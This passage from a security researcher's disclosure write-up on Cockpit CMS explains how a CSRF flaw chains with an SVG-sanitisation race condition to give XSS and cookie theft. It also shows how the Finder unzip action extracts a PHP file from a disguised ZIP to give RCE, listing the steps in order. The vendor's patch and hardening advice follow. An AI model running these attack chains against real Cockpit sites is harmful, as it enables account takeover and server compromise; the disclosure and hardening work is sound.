if (!$files['error'][$i] && $_isAllowed && $_sizeAllowed && move_uploaded_file($files['tmp_name'][$i], $_file)) {

    $_files[]   = $_file;
    $uploaded[] = $files['name'][$i];

    if (\preg_match('/\.(svg|xml)$/i', $_file)) {
        file_put_contents($_file, \SVGSanitizer::clean(\file_get_contents($_file)));
    }

} else {
    $failed[] = $files['name'][$i];
}

...
```

However, there is a mistake in the order of operations during this sanitisation process. Firstly, the file is **moved from the temporary file upload directory set by PHP to `storage/tmp` on the server** (code `move_uploaded_file($files['tmp_name'][$i], $_file)`). Then it is sanitised using `\SVGSanitizer::clean`.

This causes a *very very very small* time window where the uploaded SVG file can be accessed from `/storage/tmp` on the website and `\SVGSanitizer::clean` has not completed sanitising the file. You can increase this time window by simply uploading a larger SVG file.

Perfect! I now have a self XSS vulnerability that I can combine with the CSRF vulnerability to build an exploit.

### CSRF to XSS POC

The process of exploitation is:

1. When a victim user submits form on your malicious external website, first open a new tab to the malicious HTML code for step 2 and then upload a large SVG file with your JavaScript payload using the Asset API.

2. On the second tab that is opened, wait for a little bit then *yeet* the victim straight into uploaded SVG file in `/storage/tmp` before it is sanitised.

The following POC GIF demonstrates doing this CSRF to XSS exploit and stealing the victim user's session cookie.




---

## CSRF to RCE

So I had achieved leveraging the CSRF vulnerability to get XSS, but *I want some of that juicy RCE*. 

So next I decided switch to the Finder API and figure out a method to achieve RCE while restricting file uploads to only image file extensions and not allowing the use of `writeFile`.

Once again I *slightly* cheated and did not disallow using the `unzip` Finder API action. I will go with the excuse that unzipping a file does not appear to be obviously dangerous unlike modifying content files like `writeFile` did. The source code for `unzip` is shown below from `modules/Finder/Controller/Finder.php`.

```php
protected function unzip() {

$path    = $this->_getPathParameter();

if (!$path) return false;

$return  = ['success' => false];
$zip     = $this->param('zip', false);

if ($path && $zip) {

    $path =  $this->root.'/'.trim($path, '/');
    $zip  =  $this->root.'/'.trim($zip, '/');

    $za = new \ZipArchive;

    if ($za->open($zip)) {

        if ($za->extractTo($path)) {
            $return = ['success' => true];
        }

        $za->close();
    }
}

return json_encode($return);
}
```

The `unzip` function does not **validate if the file being extracted is even a `.zip` file**, meaning that you can just use this Finder API action to extract any `.php` file from a ZIP archive!

However, the Finder API uses JSON requests that would make this not vulnerable to CSRF :/.



*Did I give up there?* **NOPE!**

I simply attempted the same request, but changed the `Content-Type` to `application/x-www-form-urlencoded`.



Perfect! Since `application/x-www-form-urlencoded` can be used instead of `application/json` it means that I could still exploit the CSRF vulnerability.

*Let's get into that POC since that is what everyone has probably skipped to.*

### CSRF to RCE POC

So the process of exploitation is fairly simple:

1. When a victim admin user browsers your malicious external website and submits a form, first open a separate tab for the payload in step 2 then upload a ZIP file named `exploit.png` that contains your `.php` payload.

2. On the second tab, wait for a bit then auto submit a form to `unzip` the uploaded `exploit.png`.

3. Visit the extracted `.php` payload to get unauthenticated RCE.

4. *?Profit?*

The following POC GIF demonstrates getting RCE by targetting a Cockpit administrator user.



---

## How Cockpit CMS Patched This Vulnerability

The interesting thing was that Cockpit CMS did have a mechanism for CSRF token validation, just it was not implemented for the admin API. Artur added the CSRF token validation for the admin API actions within a day after my initial report ([Github commit](https://github.com/Cockpit-HQ/Cockpit/commit/ef00d03ea1d50921976c3f163fc89bce6e813e9a)). However, I do still have some concerns with how Artur patched these vulnerabilities.

Firstly, the CSRF token validation method requires adding `$this->hasValidCsrfToken(true);` to each route for the internal API. This means that this vulnerability could be reintroduced again for a route if the `$this->hasValidCsrfToken(true);` was forgotten.

Secondly, the Finder API is basically **file upload to RCE** as a feature for Cockpit CMS administrators. I brought this up to Artur and he agreed that it is a powerful feature and that's why only administrator users have permission to use it. He did say just 'delete the finder folder in `/modules` if you're uncomfortable' (which I personally recommend for hardening your Cockpit CMS server).

Finally, the race condition issue that I exploited in the SVG file upload process using the Assets API is still not patched. However, since the CSRF vulnerability has been patched this is now only a self-XSS.

---

# A Note About Secure by Default and Documenting Configuration Settings

One of my major concerns going through Cockpit CMS was that the default settings were **insecure** and could potentially lead to achieving **XSS or RCE** (as I demonstrated above even with *hardened* settings). Normally I don't report insecure defaults, since the responsibility of setting secure configuration settings is on the user.

However, the documentation should at least highlight best practices or important configuration settings to inform users about how to secure their servers. [Cockpit CMS's official documentation does not have any of these recommendations](https://getcockpit.com/documentation/core/quickstart/configuration), and only provided a basic configuration file (which enables uploading dangerous file types using the Assets and Finder API)



The only *'complete'* documentation about configuring Cockpit CMS I could find was on [this gitlab website by Zeraton](https://zeraton.gitlab.io/cockpit-docs/guide/basics/configuration.html#introduction) that was last updated in **2019**. Therefore, I felt obliged to document some configuration settings for hardening your Cockpit CMS servers.

## Setting an Allow List for Assets API Uploads

As previously mentioned, the Assets API is the *secure* and *recommended* alternative for file uploads on Cockpit CMS. However, by default it allows uploading any file with the only exception that `.php`, `.phar` and `.phtml` file extensions not being allowed. Instead, an allow list should be configured to restrict the allowed file extensions on Cockpit CMS. For an example, the following configuration setting only allows the upload of `.png`, `.jpg` and `.jpeg` file extensions using the Assets API.

*Put in `config/config.php`*
```php
    /**
     * Only allow files with the 'png, jpg, jpeg, svg' extension to be uploaded
     */

    // Assets API
    'assets' => [
        'allowed_uploads' => 'png, jpg, jpeg'
    ],
```

## How to secure the Finder API?

The Finder API can be easily exploited by a Cockpit CMS administrator to achieve RCE. I have also demonstrated in my above ramblings that even the `finder.allowed_uploads` setting cannot prevent RCE, since it can be bypassed using **dangerous** built in actions such as `writeFile` or `unzip`.

If you are really want to harden your Cockpit CMS website, I recommend just deleting the `modules/Finder` folder.



Artur from Cockpit CMS is fully aware of the security issues of the Finder API and also recommended deleting the `modules/Finder` in my communication with him.

## Change Your Application Security Keys!

If you do not create a custom `config/config.php` configuration file and use a secure **`sec-key`**, then your application will be using a default secret key that is hardcoded into the application! You can find these default application secret keys by searching for `sec-key` in Cockpit CMS.



## Harden PHP Session Cookies

Cockpit CMS uses the builtin PHP session cookie for session authentication on the administrator portal. However, you need to secure your PHP sessions by properly configuring your PHP ini configuration file. For an example, if `session.cookie_httponly` is not set then JavaScript code can access a user's session cookie and makes XSS attacks significantly easier. [PHP has additional documentation about recommended settings for securing session cookies](https://www.php.net/manual/en/session.security.ini.php).

---

# Conclusion

To conclude, I do want to give a huge shout out to Artur at Cockpit CMS for quickly responding and patching both of these vulnerabilities. So far, he has the record for the fastest patch I have seen for an open source project.

Saying that, from my brief vulnerability research into Cockpit CMS there can be more done to improve the security of the CMS. Both of the patches were effective at remediating the **root cause** for the vulnerabilities I reported. However, the patches were not complete since they do not prevent circumstantial edge cases or fix the issues of input validation that enabled these vulnerabilities in the first place. At the time of writing this article, there was no official documentation about hardening Cockpit CMS as well.

I wish I had more time to properly look through Cockpit CMS and conduct a more thorough review. Saying that, I do hope this article inspires other developers and security researchers to help Artur out with securing CMS.